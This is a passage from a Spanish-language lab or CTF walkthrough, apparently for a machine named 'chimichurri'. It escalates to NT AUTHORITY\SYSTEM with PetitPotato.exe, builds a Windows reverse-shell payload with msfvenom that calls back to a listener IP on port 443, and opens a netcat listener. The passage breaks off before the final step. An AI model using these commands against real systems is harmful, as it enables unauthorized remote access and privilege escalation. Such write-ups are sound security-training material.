 4. En cuarto lugar, ejecutaremos el **PetitPotate.exe** de la siguiente forma.

```ps
./PetitPotato.exe 3 "whoami"
```

Tal y como se ve en la captura de pantalla, hemos conseguido convertirnos en el máximo usuario (**nt authority\system**).

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307231828.png>)

En este punto lo que haremos será crearemos una **Reverse Shell**. Para ello, usaremos **msfvenom** de **Metasploit** de la siguiente forma.

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.200.128 LPORT=443 -f exe -o shell.exe
```

Subiremos la **Reverse Shell** (`shell.exe`) de la misma forma que hemos hecho antes (`upload shell.exe`).

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307232017.png>)

5. En quinto y último lugar, nos pondremos en escucha con **NetCat** (`rlwrap nc -nlvp 443`) y ejecutaremos la **Reverse Shell** usando **PetitPotato.exe** de la siguiente forma.
